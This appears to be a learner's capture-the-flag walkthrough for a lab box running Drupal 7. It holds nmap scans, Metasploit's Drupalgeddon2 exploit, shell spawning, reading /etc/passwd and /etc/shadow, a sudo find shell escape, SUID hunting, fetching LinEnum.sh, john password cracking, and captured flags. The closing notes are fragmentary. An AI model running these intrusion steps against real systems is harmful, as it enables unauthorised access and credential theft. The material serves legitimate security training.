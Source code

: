 # Method: 1 Using http 80
## step: 1 Do nmap scans 
1. all port scan 
   - sudo nmap 10.10.10.10 -Pn -n -p-
	- PORT     STATE SERVICE
	- 22/tcp   open  ssh
	* 80/tcp   open  http
	- 6880/tcp open  unknown
done 

2. .   Service  version scan 
   - sudo nmap 10.10.10.10 -Pn -n -p 22,80  -sV 
	- PORT   STATE SERVICE VERSION
	* 22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
	- 80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
## Step: 2 Checking for any verbalities 

search using http
http://10.10.10.10/includes/session.inc
Found it is using drupal
2. waplizer 
### Exploit Drupal 7 (Drupalgeddon2)

- Drupal 7 is vulnerable to a critical remote code execution vulnerability known as Drupalgeddon2 (CVE-2018-7600):

```
msfconsole
use exploit/multi/http/drupal_drupageddon
use exploit/unix/webapp/drupal_drupalgeddon2// not working 
set RHOST 10.10.10.10
set RPORT 80
set TARGETURI /
exploit
```

- To Spawns a new Bash shell 
	- python -c 'import pty; pty.spawn("/bin/bash")'
	- bash -p


- TO view users 
	 - cat /etc/passwd | grep /bin/bash
	- result
		- root:x:0:0:root:/root:/bin/bash
		- harry:x:1001:1001:Harry,,,:/home/harry:/bin/bash
		- jack:x:1000:1000:Jack,,,:/home/jack:/bin/bash
- Look for privilege escalation
	- sudo -l
	- find / -perm -u=s -type f 2>/dev/null

## Step: 3 User login

- To log in as harry 
	- sudo -u harry /usr/bin/find . -exec /bin/sh \; -quit

- Search for flags 
- cd /home/jack
	- cat flag1.txt
	- flag1{08d654b2513615d30fe80f8a36e6425c}
- cd /home/harry
	- cat flag2.txt
	- flag2{01f8810dee3c2aa810f6db90af182d2b}
- To find **Exploit Misconfigured File Permissions**
	- find / -perm -4000 2>/dev/null
	
- To get Privilege Escalation or  become root user run this
	- run
		- /usr/bin/What_are/you/_searching_/for?/iamhere
		  


### Extra step
- search for 
	- /etc/shadow 
	- save password files in desktop
- To setup hhtp server 
	- sudo python3 -m  http.server  80
	- wget http://10.10.10.4/LinEnum.sh
	- sudo python3 -m  http.server  50
- password crack using john 
	- the you get 
	-  Username: jack     Password: kcaj           
## Step: 4 Final flag 

- The final flag
	- root@HackerSchool:/# cd root
	- root@HackerSchool:/root# ls
		- finalflag.txt
	- root@HackerSchool:/root# cat finalflag.txt
		- root-flag{bbe4bc6f660e82677ed07254732eb6b3}

# Method: 
login ftp using ftp 
search exploit = searchsploit Drupal 7






admin@123
CAP 
wire shark 
